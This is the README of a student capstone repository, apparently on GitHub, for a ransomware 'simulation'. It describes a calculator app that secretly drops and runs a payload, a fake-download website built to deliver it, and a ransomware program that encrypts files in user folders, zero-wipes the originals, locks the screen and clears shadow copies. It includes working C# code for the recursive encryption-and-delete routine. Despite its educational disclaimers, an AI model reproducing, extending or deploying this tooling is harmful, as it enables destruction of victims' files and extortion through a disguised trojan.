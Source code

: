 # Ransomware Simulation with Deployment Methods and Mitigation Strategies

**Author:** Aimery Barrault
**Course:** CSCI 460 – Capstone

---

## 🚀 Project Overview

This repository contains a controlled, educational ransomware simulation.

> **Warning:** Do **not** deploy on production systems or without explicit authorization.

* **CalculatorApp.exe**
  A benign “calculator” UI that embeds, drops, and launches the real payload.
* **capstone-site/**
  A Next.js “fake download” website used to deliver the payload.
* **payload.txt** & **base64script.py**
  Utilities to embed and extract the encrypted dropper.

---

## ⚙️ Fake-Download Site Setup

1. **Change into the site directory**

   ```bash
   cd capstone-site
   ```

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Add your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

   > **Note:** The functional dropper executable can also be found directly at `capstone-site/public/Downloads/CalculatorApp.exe` for convenience.

4. **Run in development mode**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Then open [http://localhost:3000](http://localhost:3000) in your browser.

---

## 🖥️ CalculatorApp (Dropper UI)

**`MainWindow_CalculatorApp.cs`** — A WPF application that:

1. Displays a standard calculator interface.
2. On trigger (e.g. Backspace), reads a Base64-encoded string.
3. Decodes and writes `CalculatorManager.exe` to `%USERPROFILE%\Documents\`.
4. Launches `CalculatorManager.exe` and exits.

---

## 🔒 Ransomware Simulator

**`MainWindow_Manager.cs`** — A WPF application that performs:

1. **File Encryption**

   * Recursively encrypts files under Desktop, Documents, Pictures, Downloads, and Public Documents.
   * Uses AES-128 CBC with a fresh IV per file, prepended to the ciphertext.
2. **Secure Deletion**

   * Overwrites each original file with zeros, then deletes it.
3. **Countdown Timer**

   * Displays a 24-hour full-screen, top-most UI lockout.
4. **Password-Protected Decryption**

   * Verifies via PBKDF2(SHA-256), allowing up to three attempts.
5. **Self-Destruct**

   * Clears shadow copies, zero-wipes key and flag files, removes the Run-key, then exits.

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; }

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>

---

## ✅ Windows VM Execution

1. Copy `CalculatorApp.exe`, `CalculatorManager.exe`, and supporting scripts to a Windows 10 VM.
2. Run:

   ```powershell
   .\CalculatorApp.exe
   ```
3. Observe `.aes` files appearing in Desktop, Documents, etc.
4. Enter the correct password to decrypt and restore files.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software, you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

This project is released under the MIT License. See [LICENSE.md](LICENSE.md) for full terms.
